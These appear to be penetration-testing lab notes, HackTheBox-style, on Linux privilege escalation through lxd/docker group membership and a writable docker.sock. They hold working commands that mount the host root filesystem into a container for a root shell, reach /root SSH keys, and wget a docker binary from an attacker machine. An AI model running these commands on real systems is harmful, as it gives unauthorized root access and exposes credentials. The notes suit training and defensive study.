 ```
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the resource of the host system as root
```
container-user@nix02:~$ lxc start privesc
```
```
container-user@nix02:~$ lxc exec privesc /bin/bash
```
```
root@nix02:~# ls -l /mnt/root
```
## 116(docker)
```
docker image ls
```
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
## 999(docker)
Article: https://flast101.github.io/docker-privesc
Script: https://github.com/flast101/docker-privesc/blob/master/docker-privesc.sh
### docker images
replace alpine with ubuntu for example depending on the output of this command
# Docker
Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers
```
docker run -v /root:/mnt -it ubuntu
```
This command create a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse to the mounted directory and retrieve or add SSH keys for the root user
A case that can also occur is when the Docker socket is writable. Usually, this socket is located in /var/run/docker.sock
```
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```
## docker.sock
From here on, we can use the docker to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it here and upload it to the Docker container.
```
https://master.dockerproject.org/linux/x86_64/docker
```
```
htb-student@container:/tmp$ wget https://<parrot-os>:443/docker -O docker
```
```
htb-student@container:/tmp$ chmod +x docker
```
```
htb-student@container:/tmp$ ls -l
```
```
htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps
```
We can create our own Docker container that maps the host’s root directory (/) to the /hostsystem directory on the container. With this, we will get full access to the host system. Therefore, we must map these directories accordingly and use the main_app Docker image.
```
```